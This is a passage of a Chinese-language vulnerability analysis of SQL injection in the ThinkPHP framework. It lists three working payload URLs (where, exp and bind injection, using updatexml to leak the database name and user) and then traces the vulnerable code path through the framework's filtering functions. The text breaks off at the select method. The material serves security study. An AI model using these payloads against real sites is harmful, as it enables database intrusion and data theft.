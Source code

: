 ### where注入

> 
Payload：`http://127.0.0.1/cms/?id[where]=1 and 1=updatexml(1,concat(0x7e,(select database()),0x7e),1)#`


### exp注入

> 
Payload：`http://127.0.0.1/cms/index.php/Home/Index/index?user[0]=exp&amp;user[1]==1 and updatexml(1,concat(0x7e,user(),0x7e),1)`


### bind注入

> 
Payload：`http://127.0.0.1/cms/index.php/Home/Index/index?id[0]=bind&amp;id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)&amp;last_name=1`


## 漏洞分析

### where注入

> 
从官方文档我们可以知道如果`I()`方法不存在过滤参数的话会默认使用`htmlspecialchars`方法进行过滤，但是同时默认使用的`htmlspecialchars`函数并没有过滤`'`的


> 
跟进`ThinkPHP/Common/functions.php`，如果`$filters`不存在就等值于`C('DEFAULT_FILTER')`而该值正等于`htmlspecialchars`，后面使用回调函数`array_map_recursive`对数据进行过滤


> 
继续往下，后面利用`array_walk_recursive`，如果输入数据是数组的话回调`think_filter`进行数据进一步过滤


> 
跟进`think_filter`方法，如果传入的data是下面数组里面的其中一个就在其后面添加一个空格


> 
进入`find`方法，跟进`ThinkPHP/Library/Think/Model.class.php`，因为我们传入的是一个数组，并且`$pk`值不为数组所以我们就可以直接绕过前面的预设定位到`_parseOptions`


> 
进入`_parseOptions`方法，定位到`_parseType`


> 
进入`_parseType`方法，发现这里对数据进行强制数据类型转换，然后返回给`_parseOptions`，这里对数据进行强制数据类型转换，然后放回，进行数据类型转换后自然是不存在sql注入，所以需要绕过这个函数的过滤，回到上一步发现只有经过`if(isset($options['where']) &amp;&amp; is_array($options['where']) &amp;&amp; !empty($fields) &amp;&amp; !isset($options['join']))`这个判断才会进入`_parseType`函数过滤，这里可以使用数组随便绕过


> 
继续往下，进入`select`方法
